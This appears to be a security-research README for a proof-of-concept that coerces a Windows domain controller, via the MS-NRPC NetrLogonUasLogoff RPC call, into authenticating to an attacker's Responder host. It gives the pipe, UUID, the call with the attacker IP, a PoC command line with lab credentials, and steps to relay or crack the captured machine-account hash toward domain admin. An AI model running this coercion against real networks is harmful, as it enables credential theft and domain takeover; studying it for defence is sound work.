 # MS-NRPC - Remote call to NetrLogonUasLogoff (opnum 1)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`NetrLogonUasLogoff`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f89840bc-4215-4dc8-9d36-5c1e5fa6a77d)

 - **Function operation number**: `1`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrLogonUasLogoff`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f89840bc-4215-4dc8-9d36-5c1e5fa6a77d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrLogonUasLogoff('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrLogonUasLogoff(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in, string] wchar_t* UserName,
   [in, string] wchar_t* Workstation,
   [out] PNETLOGON_LOGOFF_UAS_INFO LogoffInformation
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `NetrLogonUasLogoff`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f89840bc-4215-4dc8-9d36-5c1e5fa6a77d